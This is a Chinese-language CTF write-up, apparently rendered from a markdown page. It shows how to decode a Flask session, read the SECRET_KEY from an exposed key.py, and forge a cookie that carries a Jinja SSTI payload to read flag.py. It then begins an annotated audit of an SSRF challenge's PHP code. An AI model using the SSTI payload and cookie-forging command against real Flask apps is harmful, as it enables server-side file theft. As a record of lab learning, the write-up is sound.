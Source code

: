 ```python

    if decompress:
        try:
            payload = zlib.decompress(payload)
        except Exception as e:
            raise Exception('Could not zlib decompress the payload before '
                             'decoding the payload')

    return session_json_serializer.loads(payload)

if __name__ == '__main__':
    # 由于我是在 pycharm 运行，为了方便直接将 session 赋值给 payload
    payload = "eyJuMWNvZGUiOm51bGx9.YFVHSw.M_DdKDNd7WMbknyVKSDJ9Y25Z7Q"
    print(decryption(payload.encode()))
    # print(decryption(sys.argv[1].encode())) 
```
> {'n1code': None}

11. flask的 session 伪造需要一个密钥。接下来需要获得`SECRET_KEY`。在 server.py 源码中有执行 key.py 文件的操作，即`execfile('key.py')`，所以尝试直接访问`key.py`，成功获得内容：#!/usr/bin/python key = 'Drmhze6EPcv0fN_81Bj-nA'

12. 接下来是构造 payload。使用知识点中列的博文里的 payload 很多都失败了，我最终成功的形式：`{{[].__class__.__mro__[1].__subclasses__()[40](\'flag.py\').read()}}'}"`，使用`flask-session-cookie-manager`完整的命令形式：`python3 flask_session_cookie_manager3.py encode -s "Drmhze6EPcv0fN_81Bj-nA" -t "{'n1code' : '{{[].__class__.__mro__[1].__subclasses__()[40](\'flag.py\').read()}}'}"`
   - flask-session-cookie-manager：Flask Session Cookie Decoder/Encoder，可以用来对 flask session cookie 编码/解码，实际上第10步也可以用这个来解码
   - `Drmhze6EPcv0fN_81Bj-nA`，从 key.py 中获得的密钥
   - 整个流程：1. 先对原始 session 解码获得 session 的形式  2. 获取`SECRET_KEY`  3. 构造 payload  4. 按照解码获得 session 的形式构造 session，再通过`flask-session-cookie-manager`使用 key 加密编码。

13. 将`flask-session-cookie-manager`获得的编码放到请求包的 session 中，再向服务器发送该包，成功获得 flag.py
    ![afr](afr_3_flag.png)


# 第二章 Web 进阶
## 2.1 SSRF漏洞
1.  进入环境，点击 intersting challenge，代码审计。更详细的代码审计可以看这篇[博客](https://blog.csdn.net/wuyaowangchuan/article/details/110433971)
```php
<?php 
highlight_file(__FILE__);  # 高亮显示当前文件
function check_inner_ip($url) 
{ 
    $match_result=preg_match('/^(http|https)?:\/\/.*(\/)?.*$/',$url); 
    // ^ 匹配行的开始
    // (xyz) 字符组，按照确切的顺序匹配字符 xyz
    // | 分支结构，匹配符号之前的字符或后面的字符
    // ? 	匹配前面的子表达式零次或一次，或指明一个非贪婪限定符
    // \ 转义符，它可以还原元字符原来的含义，允许你匹配保留字符 [ ] ( ) { } . * + ? ^ $ \ |
    // . 匹配除换行符以外的任意字符
    // * 匹配前面的子表达式零次或多次
    // $ 匹配行的结束

    if (!$match_result) 
    { 
        die('url fomat error'); 
    } 
    try 
    { 
        $url_parse=parse_url($url); 
        // 分解出一个URL的各个部分，返回数组。这是 php 的方法，各种语言对 URL 各部分解析规则会各不一样
```